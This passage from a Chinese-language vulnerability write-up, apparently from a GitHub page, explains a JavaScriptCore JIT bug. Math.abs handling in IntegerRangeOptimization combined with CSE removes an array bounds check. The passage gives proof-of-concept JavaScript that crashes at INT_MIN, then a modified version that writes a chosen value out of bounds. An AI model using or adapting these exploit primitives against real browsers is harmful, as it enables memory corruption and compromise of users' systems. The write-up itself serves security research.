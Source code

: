 （2）接下来要构造`i = ArithNeg(checked) n`

通过 ArithAbs 操作实现，只有当传入的 n 为负数时，才会将 ArithAbs 转化成 ArithNegate 操作进行检查，因为正数的绝对值是它本身，不会造成溢出，也不用取反。因此完成以下的构造：

```
n = n|0;
if (n < 0) {
    // Compiler knows that n will be a negative integer here
    let v = (-n)|0;
    let i = Math.abs(n);
}


```

Math.abs 会调用到 ArithAbs 操作，之后 IntegerRangeOptimization 将 ArithAbs 转换为一个 checked 的 ArithNegate（这里要进行检查，是因为 INT_MIN：-2147483648 取绝对值后变成 2147483648 会造成溢出）。此时 v 和 i 的值被认为是相同的，都是 ArithNeg n，只不过模式不同，但 CSE 优化会无视模式不同，直接当成同一个值处理。

（3）准备条件已经完成，最后通过循环调用，触发 CSE 优化，转化成：

```
v = ArithNeg(unchecked) n
i = v


```

综上所述，poc 如下：

```
function hax(arr, n) {
  n = n|0;
  if (n < 0) {
    let v = (-n)|0;
    let idx = Math.abs(n);
    if (idx < arr.length) {
        arr[idx];
    }
  }
}


```

触发漏洞前，IntegerRangeOptimization 在进入`idx < arr.length` 时将 idx 标志为恒大于等于 0 且小于数组长度，此时传入的 n 为负数，idx=-n，通过循环训练，JIT 会认为 idx 极大可能落在数组内，预测下一次访问也在数组内，从而消除数组的越界访问检查。

而触发漏洞，进行 CSE 优化时，传入的 n 为 - 2147483648，idx=v=-2147483648，依然为负数，小于数组长度，进入判断，但此时已经消除了数组的越界检查。上述最终效果是可以越界访问 arr[-2147483648]，造成 crash。

后面要做的就是将 idx 从 - 2147483648 转化成任意数，越界读写后面对象的内容。修改 poc 如下：

```
function Foo(arr, n)
{
    n = n | 0;
    if(n < 0) {
        let v = (-n) | 0;
        let idx = Math.abs(n);
        if(idx < arr.length) {
            if(idx & 0x80000000) { // 输入值为负时才能进行减法操作
                idx += -0x7ffffffd;  // idx = 3;
            }
            if(idx > 0) { // 由于前面的减法，IntegerRangeOptimization无法确定idx是否恒大于等于0，所以要加判断
                return arr[idx] = 1.04380972981885e-310;  // i2f(0x133700001337);
            }
        }
    }
```